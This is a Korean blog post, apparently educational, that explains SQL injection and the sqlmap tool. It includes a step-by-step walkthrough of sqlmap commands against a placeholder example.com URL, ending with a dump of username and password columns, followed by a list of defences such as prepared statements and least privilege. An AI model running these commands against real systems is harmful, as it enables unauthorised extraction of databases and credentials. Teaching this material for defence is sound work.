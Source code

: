 ```yaml
---
layout: single
title:  "SQLi-sqlmap이란? "
categories: SQLi
tag: [SQLi, sqlmap, 이론]
toc: true
author_profile: false

---
```


**[공지사항]** [본 블로그에 포함된 모든 정보는 교육 목적으로만 제공됩니다.](https://weoooo.github.io/notice/notice/)
{: .notice--danger}

**[데이터베이스 설계 및 SQL쿼리]** [데이터베이스와 SQL쿼리를 모르신다면 클릭!](https://weoooo.github.io/database/sql/Database-with-SQL-query/)
{: .notice--success}

**[SQLi-sqlma 옵션 리스트 01]**[sqlmap 옵션를 확인하고 싶다면 클릭!](https://weoooo.github.io/sqli/SQLi-sqlmap-otion-01/)
{: .notice--primary}

## 📖개요

SQLMap은 데이터베이스 관리 시스템(DBMS)의 SQL 인젝션 취약점을 자동으로 탐지하고, 이를 악용하여 다양한 공격을 수행할 수 있는 오픈 소스 도구입니다.

SQLMap은 강력한 기능과 유연한 옵션을 제공하여 보안 전문가와 해커 모두에게 인기 있는 도구입니다.

![이미지](https://pbs.twimg.com/media/FjYBRxTXwAIKioc?format=jpg&name=small)

## 💉SQL 인젝션 개요

SQL 인젝션은 웹 애플리케이션에서 사용자 입력이 제대로 검증되지 않아 공격자가 임의의 SQL 코드를 주입할 수 있는 취약점입니다. 

이를 통해 공격자는 데이터베이스의 데이터를 무단으로 조회, 수정, 삭제할 수 있습니다.

## 🪄SQLMap의 주요 기능

SQLMap은 다음과 같은 주요 기능을 제공합니다

### 자동 탐지: 다양한 SQL 인젝션 유형을 자동으로 탐지합니다.
{: .notice--danger}

{: .notice--danger}

### 데이터베이스 정보 수집: 데이터베이스, 테이블, 컬럼 등의 정보를 조회합니다.

{: .notice--danger}

### 데이터 추출: 특정 테이블이나 컬럼의 데이터를 추출합니다.

{: .notice--danger}

### 파일 시스템 접근: 데이터베이스 서버의 파일 시스템에 접근할 수 있습니다.

{: .notice--danger}

### 명령어 실행: 데이터베이스 서버에서 시스템 명령어를 실행할 수 있습니다.



## ✏️SQLMap 사용 방법

SQLMap은 명령줄 도구로, 다양한 옵션을 제공하여 공격을 구성할 수 있습니다. 다음은 기본적인 사용 예시입니다:

```
`sqlmap -u "http://example.com/vulnerable_page.php?id=1" --dbs`
```

이 명령어는 `http://example.com/vulnerable_page.php?id=1` 페이지에 SQL 인젝션을 시도하고, 데이터베이스 목록을 조회합니다.

### 주요 옵션 설명

`-u` : 대상 URL을 지정합니다.

`--dbs` : 데이터베이스 목록을 나열합니다.

`--tables` : 특정 데이터베이스의 테이블 목록을 나열합니다.

`--columns` : 특정 테이블의 컬럼 목록을 나열합니다.

`--dump` : 특정 테이블의 데이터를 추출합니다.

## ☠️SQLMap 시연 예제

### 단계 1: 데이터베이스 탐지

```
`sqlmap -u "http://example.com/vulnerable_page.php?id=1" --dbs`
```

이 명령어는 SQLMap이 대상 URL에서 SQL 인젝션 취약점을 탐지하고, 데이터베이스 목록을 나열합니다.

### 단계 2: 테이블 탐지

```
`sqlmap -u "http://example.com/vulnerable_page.php?id=1" -D example_db --tables`
```

이 명령어는 `example_db` 데이터베이스 내의 테이블 목록을 나열합니다.

### 단계 3: 컬럼 탐지

```
`sqlmap -u "http://example.com/vulnerable_page.php?id=1" -D example_db -T users --columns`
```

이 명령어는 `example_db` 데이터베이스의 `users` 테이블 내의 컬럼 목록을 나열합니다.

### 단계 4: 데이터 추출

```
`sqlmap -u "http://example.com/vulnerable_page.php?id=1" -D example_db -T users -C username,password --dump`
```

이 명령어는 `example_db` 데이터베이스의 `users` 테이블에서 `username`과 `password` 컬럼의 데이터를 추출합니다.

## 🛡️SQL 인젝션 대응 방안

SQL 인젝션을 예방하기 위해 다음과 같은 방안을 적용할 수 있습니다.



### **입력 검증**

사용자 입력을 철저히 검증하여 악의적인 SQL 코드를 차단합니다.
{: .notice--danger}

### **준비된 문(Prepared Statements)**

SQL 쿼리를 실행할 때, 매개변수를 별도로 처리하여 SQL 인젝션을 방지합니다.
{: .notice--danger}

### **ORM 사용**

객체 관계 매핑(Object-Relational Mapping) 도구를 사용하여 직접적인 SQL 쿼리 작성을 최소화합니다.
{: .notice--danger}

### **최신 보안 패치 적용**

데이터베이스 관리 시스템과 웹 애플리케이션의 최신 보안 패치를 적용하여 알려진 취약점을 차단합니다.
{: .notice--danger}

### **최소 권한 원칙**

데이터베이스 사용자 계정에 최소한의 권한만 부여하여, SQL 인젝션이 성공하더라도 피해를 최소화합니다.
{: .notice--danger}

## 🛠️결론

SQLMap은 SQL 인젝션 취약점을 자동으로 탐지하고 악용할 수 있는 강력한 도구입니다. 

하지만, SQL 인젝션 공격의 위험성을 줄이기 위해서는 적절한 보안 조치를 적용하는 것이 필수적입니다.
 
입력 검증, 준비된 문 사용, 최신 보안 패치 적용 등 다양한 대응 방안을 통해 웹 애플리케이션의 보안을 강화할 수 있습니다.

## 📖Reference

[sqlmap로고 출처: x.com](https://x.com/ReconOne_bk/status/1600468125488906240)
